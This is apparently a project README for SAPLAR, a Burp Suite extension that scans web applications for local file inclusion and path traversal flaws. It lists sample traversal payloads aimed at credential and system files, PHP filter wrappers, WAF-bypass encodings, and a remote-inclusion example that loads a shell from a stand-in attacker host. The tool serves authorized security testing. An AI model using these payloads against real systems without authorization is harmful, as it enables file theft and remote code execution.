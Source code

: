 # SAPLAR - LFI & Path Traversal Scanner

## 📌 Project Overview

SAPLAR is a powerful **Burp Suite extension** designed to **detect Local File Inclusion (LFI) and Path Traversal vulnerabilities** in web applications. This tool is built for **penetration testers, bug bounty hunters, and security researchers** who need an **automated, flexible, and highly efficient** LFI scanner within Burp Suite.

SAPLAR injects **LFI payloads** into various parts of HTTP requests, including:

- **GET Parameters**
- **POST Data**
- **Cookies**
- **HTTP Headers**

It then analyzes the **server response** to identify **LFI signatures**, potential file disclosures, and error patterns.

---

## ⚡ Features

### ✅ Multi-Vector LFI Injection

SAPLAR automatically injects **payloads into multiple request locations**:

- **Query Parameters** (`?file=../../etc/passwd`)
- **POST Body** (`file=../../etc/passwd`)
- **Cookies** (`session=../../etc/passwd`)
- **HTTP Headers** (`User-Agent, Referer, X-Forwarded-For, Authorization, etc.`)

---

### ✅ Wide LFI Payload Database

Includes **hundreds of payloads** targeting:

- **Linux systems** (`/etc/passwd`, `/proc/self/environ`, `/var/log/auth.log`)
- **Windows systems** (`C:\Windows\win.ini`, `C:\boot.ini`, `C:\Users\Administrator\NTUSER.DAT`)
- **PHP Wrappers** (`php://filter/convert.base64-encode/resource=index.php`)
- **Log file extraction** (`../../../../var/log/apache2/access.log`)
- **Remote inclusion possibilities** (`http://evil.com/shell.php`)

---

### ✅ Automatic Encoding & WAF Bypass

Payloads can be **automatically encoded** to bypass **security protections** such as **WAF (Web Application Firewalls)** and **input validation filters**:

- **Base64 Encoding**
- **URL Encoding (Single, Double, Triple)**
- **HEX Encoding**
- **Unicode Encoding**

---

### ✅ Signature-Based Response Analysis

SAPLAR scans **responses** for **known LFI indicators**, such as:

- **System Users:** `"root:x:0:0:"`, `"NT AUTHORITY\\SYSTEM"`
- **Configuration Files:** `"[boot loader]"`, `"kernel.core_pattern"`
- **Error Messages:** `"failed to open stream"`, `"No such file or directory"`
- **False Positive Filtering:** Detects **standard 403/404 responses** and **bypasses false positives**.

---

### ✅ Header & Cookie-Based Injection

Injects **LFI payloads** into common headers:

- **User-Agent**
- **Referer**
- **X-Forwarded-For**
- **Authorization**
- **X-Api-Key**
- **Accept-Charset**

Also attempts **cookie manipulation** by injecting **LFI payloads into session tokens and authentication cookies**.

---

### ✅ GUI Integration in Burp Suite

SAPLAR provides a **user-friendly** graphical interface within Burp Suite:

- **A dedicated "LFI Scan" tab** for managing scans.
- **Right-click any request** in Burp and select `"Scan for LFI"`.
- **Real-time exploit status updates** (`Exploited, Not Vulnerable, Possible LFI`).

---

## 🔧 Installation

1️⃣ **Open Burp Suite** and navigate to **Extender → Extensions**.  
2️⃣ **Click "Add"**, select **Python**, and load `SAPLAR.py`.  
3️⃣ The **"LFI Scan"** tab will now appear in Burp Suite.  

---

## 🚀 Usage

### 🔹 Active LFI Scanning

1️⃣ **Enable automatic scanning** in Burp’s **Proxy or Scanner settings**.  
2️⃣ SAPLAR will **inject payloads** and **analyze the responses**.  
3️⃣ If an **LFI vulnerability** is detected, it will be **flagged in the LFI Scan tab**.  

---

### 🔹 Manual LFI Scanning

1️⃣ **Right-click** on any HTTP request in **Burp Proxy, Repeater, or Scanner**.  
2️⃣ Select **"Scan for LFI"** from the context menu.  
3️⃣ View the **results** in the **LFI Scan panel**.  

---

## 🔍 Signature-Based Detection & Exploit Confirmation

SAPLAR **analyzes HTTP responses** for **LFI-related patterns**.

### 📌 **Direct File Output**
- `"root:x:0:0"` → Indicates **successful passwd file read**.
- `"[boot loader]"` → Indicates **Windows system file leakage**.
- `"NT AUTHORITY\\SYSTEM"` → **Windows privilege escalation** detected.

### 📌 **Error Messages**
- `"failed to open stream"` → **Indicates file inclusion attempt**.
- `"No such file or directory"` → **Confirms path traversal attempt**.

### 📌 **False Positive Prevention**
- **Content-Length Analysis**  
- **403/404 Page Detection**  

---

## 🔥 Planned Features (Upcoming Enhancements)

🚀 **Advanced Fuzzing** – Automate **LFI detection** with **dynamic payloads**.  
🚀 **More Encoding Methods** – **Triple encoding** & **custom bypass techniques**.  
🚀 **Full RFI Support** – **Test for Remote File Inclusion vulnerabilities**.  
🚀 **XSS & SQLi Detection** – Expand to **other common web vulnerabilities**.  

---

## ⚠ Legal Disclaimer

SAPLAR is **intended for authorized security testing and educational purposes only**.  
🚫 **Unauthorized testing** against systems **without explicit permission is illegal**.  
✅ **By using this tool, you agree to abide by ethical hacking principles**.  

---

## 🏆 Conclusion

SAPLAR is **one of the most powerful LFI detection tools within Burp Suite**.  
It combines **automated scanning**, **intelligent payload injection**, **advanced encoding techniques**, and **signature-based detection** to uncover **critical LFI vulnerabilities**.  

🔹 **If you have any suggestions or want to contribute, feel free to open a pull request!**  

---

![checker](saplar1.png)
![checker](saplar2.png)
